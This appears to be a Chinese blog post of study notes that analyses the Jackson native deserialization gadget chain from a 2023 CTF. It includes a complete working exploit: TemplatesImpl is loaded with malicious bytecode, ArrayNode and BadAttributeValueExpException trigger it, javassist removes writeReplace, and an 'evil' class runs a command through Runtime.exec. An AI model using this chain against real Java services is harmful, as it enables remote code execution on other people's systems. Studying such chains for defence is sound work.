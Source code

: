 ```yaml
---
title: JAVA安全:Jackson链（未完待续）
---
```


*作者：Narcher*	*时间：2024/8/30*	*分类：Vulnerability Analysis*

<!--more-->

## 前言

从网上看了几篇文章，讲的都挺好的，就写一篇做个总结吧



## 正文

### Spring-Jackson原生链

这条链子是23年阿里云CTF bypassit1爆出来的

<img src="JAVA%E5%AE%89%E5%85%A8Jackson%E9%93%BE/image-20240830132003387.png" alt="image-20240830132003387" style="zoom: 67%;" />

基本上依赖都是springboot自带的，硬要自己加的话就加下边这个：

```xml
<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-databind</artifactId>
    <version>2.13.5</version>
</dependency>
```

我们在正常调用jackson进行序列化的时候会自动调用序列化对象类的getter方法

```java
package jackson
import com.fasterxml.jackson.core.JsonProcessingException;
import com.fasterxml.jackson.databind.ObjectMapper;
import jackson.bean.User;

public class Test {
    public static void main(String[] args) throws JsonProcessingException {
        User user = new User();
        System.out.println(user);
        ObjectMapper mapper = new ObjectMapper();
//        mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL);
        String jsonData = mapper.writeValueAsString(user);
        System.out.println(jsonData);
//        User user1 = mapper.readValue(jsonData,User.class);
//        System.out.println(user1);
    }
}
```

其中User类内容如下：

```java
package jackson.bean;
import java.util.Map;

public class User {
    private String name;
    private String age;

    public User() {
        System.out.println("空构造器");
    }

    public Map getGift() {
        System.out.println("getGift");
        return null;
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public String getAge() {
        System.out.println("getAge");
        return age;
    }

    public void setAge(String age) {
        System.out.println("setAge");
        this.age = age;
    }
}
```

输出如下：

<img src="JAVA%E5%AE%89%E5%85%A8Jackson%E9%93%BE/image-20240830133639595.png" alt="image-20240830133639595" style="zoom: 67%;" />

经过调试可以发现是writeValueAsString方法触发的：

<img src="JAVA%E5%AE%89%E5%85%A8Jackson%E9%93%BE/image-20240830133747703.png" alt="image-20240830133747703" style="zoom:50%;" />

而在jackson的库中有一个ArrayNode类，用于表示json数组，并且继承了BaseJsonNode类，而在BaseJsonNode类里对toString方法进行了重写：

<img src="JAVA%E5%AE%89%E5%85%A8Jackson%E9%93%BE/image-20240830134701597.png" alt="image-20240830134701597" style="zoom:67%;" />

<img src="JAVA%E5%AE%89%E5%85%A8Jackson%E9%93%BE/image-20240830134720899.png" alt="image-20240830134720899" style="zoom:67%;" />

相当于调用toString方法就可以导致任意getter的触发

对于可以利用的getter这里，不难想到最常见的TemplatesImpl类的getOutputProperties方法

<img src="JAVA%E5%AE%89%E5%85%A8Jackson%E9%93%BE/image-20240830135456355.png" alt="image-20240830135456355" style="zoom:67%;" />

那么把封装好的TemplatesImpl类放到ArrayNode里，然后再找一个能够触发toString方法且包含readObject方法的类就结束了

而在BadAttributeValueExpException的readObject方法中，则恰好有对toString方法的调用：

<img src="JAVA%E5%AE%89%E5%85%A8Jackson%E9%93%BE/image-20240830135152268.png" alt="image-20240830135152268" style="zoom:50%;" />

在学习CC链的时候我们就见过了，所以说直接用反射把val赋值成ArrayNode就完工了

但如果这样直接会发现在反序列化的时候根本弹不出计算器，反而是在序列化的时候会弹出来，报错显示在序列化的时候调用了BaseJsonNode的writeReplace方法：

<img src="JAVA%E5%AE%89%E5%85%A8Jackson%E9%93%BE/image-20240830142243322.png" alt="image-20240830142243322" style="zoom:67%;" />

<img src="JAVA%E5%AE%89%E5%85%A8Jackson%E9%93%BE/image-20240830144136136.png" alt="image-20240830144136136" style="zoom:67%;" />

而根据序列化的规则：writeReplace方法会在序列化的时候替换掉原有的类型，因此我们在反序列化的时候就不能按正常的逻辑打了

还好这是序列化过程中的，因此我们可以在序列化之前把这个方法给移掉，可以用javassist这个库

之后的完整链子如下：

```java
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.node.ArrayNode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class jackson1 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException, NotFoundException, CannotCompileException {
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"a");
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//evil.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates,codes);
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());

        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();

        ObjectMapper objectMapper = new ObjectMapper();
        ArrayNode arrayNode = objectMapper.createArrayNode();
        arrayNode.addPOJO(templates);
        BadAttributeValueExpException bad = new BadAttributeValueExpException("1");
        Field fval = BadAttributeValueExpException.class.getDeclaredField("val");
        fval.setAccessible(true);
        fval.set(bad,arrayNode);
        //序列化
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\jackson1.txt"));
        oos.writeObject(bad);
        //反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\jackson1.txt"));
        ois.readObject();
    }
}
```

而evil类如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evil extends AbstractTranslet {
    static {
        try{
            Runtime.getRuntime().exec("calc");
        }catch (IOException e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

